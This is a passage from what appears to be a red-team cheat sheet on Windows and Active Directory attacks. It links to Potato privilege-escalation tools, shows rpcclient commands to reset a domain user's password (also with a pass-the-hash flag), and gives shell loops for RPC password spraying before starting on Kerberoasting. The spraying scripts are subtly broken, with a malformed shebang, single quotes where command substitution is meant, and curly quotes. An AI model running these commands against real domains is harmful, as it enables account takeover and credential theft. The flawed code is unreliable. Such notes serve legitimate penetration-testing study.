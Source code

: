 ### Potatoes Attacks
#### Ghost potato
https://shenaniganslabs.io/files/impacket-ghostpotato.zip

#### Remote Potato
https://github.com/antonioCoco/RemotePotato0/

#### Juicy Potato
https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505

#### Hot Potato
https://pentestlab.blog/2017/04/13/hot-potato/

#### Sweet Potato
https://www.pentestpartners.com/security-blog/sweetpotato-service-to-system/


https://www.ctfnote.com/red-teaming/privilege-escalation/windows-privilege-escalation/token-impersonation-and-potato-attacks

#### God Potato
https://github.com/BeichenDream/GodPotato

### RPC Misc
##### AD user password modification using rpcclient  

```
user@host # rpcclient -U supportAccount //192.168.0.100
[...] authenticate using the supportAccount password which needs to be modified
rpcclient $> setuserinfo2 supportAccount 23 SuperNewPassword22
```

--> Note : If package passing-the-hash is installed on attacker machine, you can even do this with just a NTLM hash. (Flag : --pw-nt-hash)

##### RPC password spraying

```
while read x; do echo $x; rpcclient -U “DOMAIN/$x%PasswOrd123” -c “getusername;quit” 192.168.0.110; done < ./userlist.txt

Using bash script:
#/bin/bash
for u in 'cat dom_users.txt'
do echo -n "[*] user: $u" && rpcclient -U "$u%password" -c "getusername;quit" 10.10.10.192
done
```

### Kerberoasting
Service Principal Names (SPN's) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service).  
